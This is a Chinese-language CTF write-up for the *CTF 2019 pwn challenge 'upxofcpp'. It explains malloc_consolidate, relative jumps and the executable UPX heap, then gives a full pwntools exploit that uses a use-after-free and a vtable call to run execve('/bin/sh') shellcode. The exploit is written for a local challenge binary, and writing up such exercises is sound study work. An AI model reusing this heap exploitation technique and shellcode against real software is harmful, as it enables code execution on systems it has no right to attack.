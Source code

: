 ```yaml
---
title: Starctf2019_upxofcpp
date: 2019-05-03 22:29:58
tags:
---
```

非常有趣构思巧妙的一题..可能我tcl都没见过所以觉得巧妙..
<!--more-->
# start
比赛的时候没有做出来...
感觉这题好多不知道的东西...
# asm(jmp .+_n)
发现汇编还可以这样写...
学到了...可以`jmp .+0x10`表示跳当前地址+0x10.. 
可能是2字节或者5字节主要看n和符号例如`+0x81`和`-0x7e`
用到时候直接ipython试试
汇编没学好...感觉这个超灵活.shellcode可以不连续了...还可以往回跳..

# malloc_consolidate
简单了解了一下..这几天准备出题比较忙之后填坑...[seebug][1]
* 何时会触发 malloc_consolidate(仅对 _int_malloc 函数而言):small bins 尚未初始化&需要 size 大于 small bins
* malloc_consolidate 如何进行合并:遍历 Fastbins 中的 chunk, 设置每个 chunk 的空闲标志位为 0, 并合并相邻的空闲 chunk, 之后把该 chunk 存放到 unsorted bin 中.Fastbins 是单向链表, 可以通过  fastbin->fd 遍历 Fastbins.

这个函数简单来说就是整理`fastbin`能合并的合并放入`unsortedbin`
还没去啃源码但是发现在`free`一个`chunk`放入`top`chunk的时候会触发.

本来感觉也没啥..后来发现是`too young too navie ...` 

我做不出来一个是不知道上面的`asm(jmp .+_n)`还有一个点是..正常的放入`fast bin`+`add`操作无法使得`fd`可控但是在链中...（想了挺久的就是没办法）

`malloc_consolidate`的好处是往`fd&bk`上填了`main_arena+88`..
而`main_arena+0x8`是`last_remain`..其最开始的8字节属于刚被`malloc`的`chunk`所以可控
而且`main_arena+0x10`是`unsorted bin[0]`其最开始的8字节可控....
这就很巧妙地和上面的`asm(jmp .+_n)`结合起来...恰好可以一起完成exp..


# UPX
题目中是简单的 `./upx -d  binary`就可以脱壳放入`ida`看清逻辑
听主办方讲题的时候说这个版本的upx `heap`可执行虽然调的时候发现但是..做题一直拿着脱壳后的`binary`忽略了`heap`可执行感觉自己差太远...

# 思路
* uaf + vtable call to run shellcode

(思路.exp很巧妙....)

# exp
```python
from pwn import *
def cmd(c):
p.sendlineafter("ice:",str(c))
def add(idx,size,data="-1"):
cmd(1)
p.sendlineafter("dex:",str(idx))
p.sendlineafter("ize:",str(size))
p.sendlineafter("stop:",data)
def free(idx):
cmd(2)
p.sendlineafter("dex:",str(idx))
def show(idx):
cmd(4)
p.sendlineafter("dex:",str(idx))
context.log_level='debug'
p=process('./upxofcpp_raw')
context.arch='amd64'
sh=asm(shellcode)
data=u32(sh+'\x00'*2)
add(0,0x68/4)
add(1,0x68/4)
add(2,0x100/4)
free(0)
free(1)
free(2)
raw='''
xor rsi,rsi
xor rdx,rdx
xor rax,rax
mov al,0x3b
mov rdi,0x0068732f6e69622f
nop
push rdi
mov rdi,rsp
syscall
'''
#>0x80000000will crash so nop...
raw=asm(raw).ljust(0x30,'\x00')+asm('jmp .-0x30')
s=''
for x in range(0,0x38,4):
s+=str(u32(raw[x:x+4].ljust(4,'\x00')))+"\n"
add(3,0x38/4,s)
#gdb.attach(p,'b *0x000555555555723')
free(1)
p.interactive()
```




[1]:https://paper.seebug.org/255/#5-last_remainder




by n132
